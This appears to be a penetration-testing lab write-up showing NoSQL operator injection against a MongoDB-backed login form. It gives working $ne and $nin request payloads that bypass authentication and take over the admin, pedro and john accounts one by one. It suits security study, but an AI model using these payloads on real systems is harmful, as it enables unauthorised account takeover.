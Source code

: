 ## Logging in as other users

We have managed to bypass the application's login screen, but with the former technique, we can only login as the first user returned by the database. By making use of the $nin operator, we are going to modify our payload so that we can control which user we want to obtain.

First, the $nin operator allows us to create a filter by specifying criteria where the desired documents have some field, not in a list of values. So if we would want to log in as any user except for the user admin, we could modify our payload to look like this:

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0bfa39dc-cb5f-485b-a3fa-c51004b5e003)


This would translate to a filter that has the following structure:

```['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'aweasdf']]```

Which tells the database to return any user for whom the username isn't admin and the password isn't aweasdf. As a result, we are now granted access to another user's account.

Notice that the $nin operator receives a list of values to ignore. We can continue to expand the list by adjusting our payload as follows:



![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/6c1ea9da-7701-4b89-9fbd-100c17b91af2)


This would result in a filter like this:

```['username'=>['$nin'=>['admin', 'jude'] ], 'password'=>['$ne'=>'aweasdf']]```

This can be repeated as many times as needed until we gain access to all of the available accounts.





### >>> Let's go play togethter >>>

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/29d7e301-2493-4f24-b318-ff0604f3ed23)



```
user[$ne]=4bo4yman&pass[$ne]=4bo4yman&remember=on
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/74bbc6cc-9153-4643-a43d-0e01932e324a)


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/96309e5c-4600-4df2-9ad6-8c7f5adf8ce7)

Very good this is account of admin.


## >>> Let's attack another accounts >>>

```
user[$nin][]=admin&pass[$ne]=4bo4yman&remember=on
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/9eba7e5e-0361-4985-9c01-3984a3222398)



![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/b8129c54-2350-4339-8de5-3e7426f0b260)


Wow we got pedro's account.

Let's try find another account.

```
user[$nin][]=admin&user[$nin][]=pedro&pass[$ne]=4bo4yman&remember=on
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2aad7951-d337-4c35-a882-3e8ad247e511)


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/fe461c6f-69f9-48ec-959c-645ea531fb56)

## Wow we can steal account of john also ... Good Bye.














